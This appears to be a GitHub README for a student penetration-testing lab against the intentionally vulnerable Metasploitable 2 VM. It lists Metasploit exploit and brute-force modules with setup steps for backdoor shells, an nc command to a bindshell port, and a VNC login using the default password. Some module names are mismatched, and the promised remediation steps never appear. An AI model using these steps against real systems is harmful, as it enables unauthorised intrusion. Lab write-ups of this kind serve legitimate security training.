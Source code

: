 # Identify-and-Remediate-Vulnerabilities-on-Metasploitable-2

## Objective
The aim of this project was to perform a thorough vulnerability assessment on Metasploitable 2.0, mirroring actual penetration testing conditions. The goal was to discover, take advantage of, and record important weaknesses in the virtual machine in order to improve hands-on experience with different attack methods and approaches. This project also emphasized implementing remediation methods to address identified vulnerabilities and enhance system security, following industry standards for system fortification and secure setups.

## Skilled Learned
- Acquired the skill to recognize and assess system weaknesses, comprehending their origins and possible consequences.
- Improved abilities in taking advantage of system weaknesses and mastering exploit methods for typical vulnerabilities, such as insecure services and outdated software.
- Performed data theft, increased privileges, and maintained access to mimic hacker actions post initial system breach.
- Acquired skills in implementing security updates, disabling unnecessary services, and setting up firewalls to address identified vulnerabilities.
- Recorded the discovered weaknesses, steps to exploit them, and implemented protective measures in an organized report layout.

## Tools Used
- Nmap: Carried out network exploration and port scanning in order to uncover available services and possible access points.
- Metasploit Framework: Utilizing pre-built modules and custom scripts to exploit identified vulnerabilities for more thorough penetration testing.

## Steps to Reproduce

### FTP Backdoor (vsftpd)
Exploitation Details:
Module Used: exploit/unix/ftp/vsftpd_234_backdoor
Steps:
- Set target IP (RHOSTS) and port.
- Run exploit to access a backdoor shell.

![image](https://github.com/user-attachments/assets/ac76dde2-c328-4f6f-a043-42296e768b17)

### Unsecured Telnet Service 
Module Used: auxiliary/scanner/telnet/telnet_login
Steps:
- set RHOST (VM IP address)
- set USER_FILE "Username file location"
- set PASS_FILE "Password file location"

setting up the requirements:
![image](https://github.com/user-attachments/assets/26a76b2b-7bcb-4116-83c2-eaa10ca3956f)

Bruteforcing and creating sessions:
![image](https://github.com/user-attachments/assets/549bca94-edf2-4893-8ea9-e20ef0b418e5)
![image](https://github.com/user-attachments/assets/b0900f3c-b018-44e5-b1af-40221dc4cb2b)

Here we can see, two sessions has successfully created....!!!

### Outdated SSH version
The process is same like the previous one.
Module Used: auxiliary/scanner/ssh/ssh_login
Steps:
- set RHOST (VM IP address)
- set USER_FILE "Username file location"
- set PASS_FILE "Password file location"

![image](https://github.com/user-attachments/assets/3cffafe0-c023-4e80-beb9-38086223897b)

### Samba Unauthenticated Access
Module Used: auxiliary/scanner/ssh/ssh_login
Steps:
- set RHOST (VM IP address)
- Execute the exploit to open a remote shell via Samba misconfiguration.

![image](https://github.com/user-attachments/assets/be1303d3-5c8b-48e3-ab5c-f0a671ea4b01)

### Bindshell Backdoor (Metasploitable root shell)
- nc 192.168.0.103 1524

![image](https://github.com/user-attachments/assets/11345c83-8e97-48a5-8ded-d23e1d0bbef6)

### IRC Backdoor (UnrealIRCd)
- Module Used: exploit/unix/irc/unreal_ircd_3281_backdoor
- Steps:
1.	Set RHOST (Target IP address)
2.	Set LHOST (Attacking IP address)
3.	Set PAYLOAD cmd/unix/bind_netcat or cmd/unix/reverse
4.	Execute the exploit to obtain a remote shell.

![image](https://github.com/user-attachments/assets/72ea2b91-de85-428b-b936-7a20cf483f15)
Unreal IRC Backdoor

### Apache (CGI Argument Injection)
- Module Used: exploit/multi/http/php_cgi_arg_injection
- Steps:
1.	Set  RHOST 
2.	Execute payload to gain shell access.

![image](https://github.com/user-attachments/assets/753ca40a-1930-4d41-8f77-4d8e68ed89f7)
Apache (CGI Argument Injection)

### Remote Code Execution on Java RMI
- Module Used: exploit/multi/http/php_cgi_arg_injection
- Steps:
1.	Set  RHOST 
2.	Execute payload to gain shell access.

![image](https://github.com/user-attachments/assets/d182e0cc-70bb-4668-add4-2d8185301b10)

### Unencrypted VNC Connection
- Module Used: auxiliary/scanner/vnc/vnc_login
- Steps:
1.	Set RHOST 
2.	Execute the exploit to obtain a remote shell.
3.	Go to terminal “vncviewer 192.168.0.103” run this command.
4.	Provide the password using the module.

![image](https://github.com/user-attachments/assets/7acaa3a4-f8bf-4fb0-b048-c70044de15a6)

vncviewer 192.168.0.103 and password is "password" as you can see from previous screenshot.
![image](https://github.com/user-attachments/assets/43a5357f-8bae-4173-8fdd-87b876b31f8b)



